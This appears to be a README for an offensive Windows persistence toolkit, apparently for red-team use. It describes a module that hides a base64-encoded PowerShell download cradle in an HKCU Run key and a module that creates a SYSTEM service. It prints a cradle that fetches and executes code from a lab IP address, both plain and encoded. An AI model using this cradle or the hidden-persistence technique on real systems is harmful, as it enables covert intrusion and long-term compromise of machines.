


## Modules

### PowerShell HKCU via PSReflect

Accepts a basic base64'd (to avoid escaping pain) download cradle.  Writes it to HKCU\Software\Microsoft\Windows\Run\\`0pwned using a modified version of [PSReflect](https://github.com/mattifestation/PSReflect) and [RegHide](https://gist.github.com/brianreitz/feb4e14bd45dd2e4394c225b17df5741#file-psreflect-reghide-ps1).

Basic Example:

`iex ([System.Net.WebClient]::New().DownloadString('http://192.168.56.100/a'))`
`aQBlAHgAIAAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AF0AOgA6AE4AZQB3ACgAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANQA2AC4AMQAwADAALwBhACcAKQApAA==`

### Windows Service Persistence

Creates a Windows Service (running as SYSTEM) with the specified options and uses `sc sdset` to assign start/stop permissions to the user SID. Requires you to manually upload a payload.

